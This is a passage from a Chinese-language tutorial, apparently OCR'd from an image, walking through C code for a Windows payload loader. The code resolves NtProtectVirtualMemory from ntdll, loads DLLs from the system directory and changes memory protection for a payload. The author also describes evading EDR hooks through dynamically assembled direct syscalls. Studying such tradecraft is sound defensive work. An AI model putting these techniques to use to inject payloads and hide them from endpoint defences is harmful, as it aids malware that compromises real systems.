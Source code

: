 `VirtualQuery`返回的内存信息以页为单位，因此需要确保 payload 不会跨页覆盖其他数据。

## 代码解析

### 初始化系统调用

```
BOOL InitSyscallFunctions() {
    HMODULE ntdll = GetModuleHandleA("ntdll.dll");
    if (!ntdll) return FALSE;

    NtProtectVirtualMemory = (NtProtectVirtualMemory_t)GetProcAddress(ntdll, "NtProtectVirtualMemory");
    if (!NtProtectVirtualMemory) return FALSE;

    return TRUE;
}
```

这里直接获取 `ntdll.dll`的模块句柄，避免使用 `LoadLibrary`增加引用计数。`GetProcAddress`用于查找 `NtProtectVirtualMemory`的地址。这个初始化函数写得比较直接。在实际的对抗中，我们通常会更进一步，不是硬编码 `NtProtectVirtualMemory`的函数名，而是通过解析 `ntdll.dll`的导出表，通过​计算系统调用号（SSN）并动态组装 `syscall`指令来发起调用。这样可以避免EDR对 `GetProcAddress`本身进行钩挂或对 `NtProtectVirtualMemory`的调用进行监控。不过，当前代码作为示例和教学目的是完全足够的，它清晰地展示了核心思想。

### 安全加载 DLL

```
HMODULE SecureLoadDll(LPCSTR dllName) {
    char dllPath[MAX_PATH];
    ZeroMemory(dllPath, MAX_PATH);

    UINT sysDirLen = GetSystemDirectoryA(dllPath, MAX_PATH);
    if (sysDirLen == 0 || sysDirLen > MAX_PATH - 10) return NULL;

    dllPath[sysDirLen] = '\\';
    strncpy_s(dllPath + sysDirLen + 1, MAX_PATH - sysDirLen - 1, dllName, MAX_PATH - sysDirLen - 1);

    return LoadLibraryA(dllPath);
}
```

从系统目录加载 DLL 可以避免 DLL 劫持攻击。`GetSystemDirectoryA`获取系统目录路径，然后拼接 DLL 文件名。

### 内存保护修改

```
BOOL SetMemoryProtection(LPVOID address, SIZE_T size, DWORD newProtect, PULONG oldProtect) {
    NTSTATUS status = NtProtectVirtualMemory(
        GetCurrentProcess(),
        &address,  // 传入地址的地址
        (PSIZE_T)&size,  // 传入大小的地址
        newProtect,
        oldProtect
    );
    return (status == 0);
}
```
